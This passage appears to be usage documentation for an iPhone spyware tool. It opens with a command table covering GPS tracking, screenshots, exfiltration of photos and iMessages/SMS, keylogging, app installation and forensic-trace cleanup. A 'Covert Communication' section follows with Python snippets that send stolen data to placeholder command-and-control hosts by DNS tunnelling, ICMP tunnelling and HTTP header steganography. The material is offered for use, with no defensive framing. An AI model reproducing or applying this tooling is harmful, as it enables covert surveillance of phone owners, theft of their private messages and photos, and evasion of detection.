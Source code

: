 ### Available Commands

| Command | Description | Example |
|---------|-------------|---------|
| `track_location` | Get GPS coordinates | `await controller.track_location(device_id)` |
| `capture_screen` | Take screenshot | `await controller.capture_screen(device_id)` |
| `exfiltrate_photos` | Extract all photos | `await controller.exfiltrate_photos(device_id)` |
| `exfiltrate_messages` | Extract iMessages/SMS | `await controller.exfiltrate_messages(device_id)` |
| `keylog` | Start keylogger | `await controller.keylog(device_id, 3600)` |
| `install_app` | Install additional app | `await controller.install_app(device_id, ipa_url)` |
| `cleanup_traces` | Remove forensic evidence | `await controller.cleanup_traces(device_id)` |

---

## Phase 5: Covert Communication

### DNS Tunneling

```python
from iphone_remote_access import CovertChannel

covert = CovertChannel()

# Exfiltrate data via DNS
data = b"sensitive data to exfiltrate"
await covert._dns_tunnel(data, "your-domain.com")

# Data will be encoded in DNS queries:
# chunk1.your-domain.com
# chunk2.your-domain.com
# etc.
```

### ICMP Tunneling

```python
# Exfiltrate via ICMP packets
await covert._icmp_tunnel(data, "your-c2-server.com")

# Data embedded in ICMP packet payloads
# Appears as normal ping traffic
```

### HTTP Steganography

```python
# Hide data in HTTP headers
await covert._http_steganography(data, "https://your-c2-domain.com/api/metrics")

# Data hidden in:
# - User-Agent strings
# - Custom headers
# - Cookie values
# - Request IDs
```
